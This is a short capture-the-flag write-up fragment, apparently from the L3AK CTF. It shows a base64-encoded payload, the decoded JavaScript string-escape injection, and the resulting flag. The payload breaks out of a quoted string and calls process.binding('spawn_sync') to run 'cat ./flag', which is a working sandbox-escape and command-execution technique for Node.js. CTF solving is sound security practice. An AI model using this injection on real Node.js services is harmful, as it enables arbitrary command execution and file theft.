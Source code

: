 ```
ISdoZWxsb1xcIjtsZXQgcmVzdWx0ID0gcHJvY2Vzcy5iaW5kaW5nKGBzcGF3bl9zeW5jYCkuc3Bhd24oeyBmaWxlOiBgY2F0YCwgYXJnczogW2BjYXRgLCBgLi9mbGFnYF0sIHN0ZGlvOiBbeyB0eXBlOiBgcGlwZWAsIHJlYWRhYmxlOiB0cnVlLCB3cml0YWJsZTogZmFsc2UgfSwgeyB0eXBlOiBgcGlwZWAsIHJlYWRhYmxlOiBmYWxzZSwgd3JpdGFibGU6IHRydWUgfSwgeyB0eXBlOiBgcGlwZWAsIHJlYWRhYmxlOiBmYWxzZSwgd3JpdGFibGU6IHRydWUgfSxdLCB9KTsgbGV0IG91dHB1dCA9IHJlc3VsdC5vdXRwdXRbMV0udG9TdHJpbmcoKTsgY29uc29sZS5sb2cob3V0cHV0KS8vJw==
L3AK{4lw4y5_r3m3mb3r_2_3sc4p3_B4cK5la5h3S!}

L3AK{4lw4y5_r3m3mb3r_2_3sc4p3_B4cK5la5h3S!}

Refactored Code:
!'hello\\";let result = process.binding(`spawn_sync`).spawn({ file: `cat`, args: [`cat`, `./flag`], stdio: [{ type: `pipe`, readable: true, writable: false }, { type: `pipe`, readable: false, writable: true }, { type: `pipe`, readable: false, writable: true },], }); let output = result.output[1].toString(); console.log(output)//';

Goodbye!
```

And we get the flag, `L3AK{4lw4y5_r3m3mb3r_2_3sc4p3_B4cK5la5h3S!}`!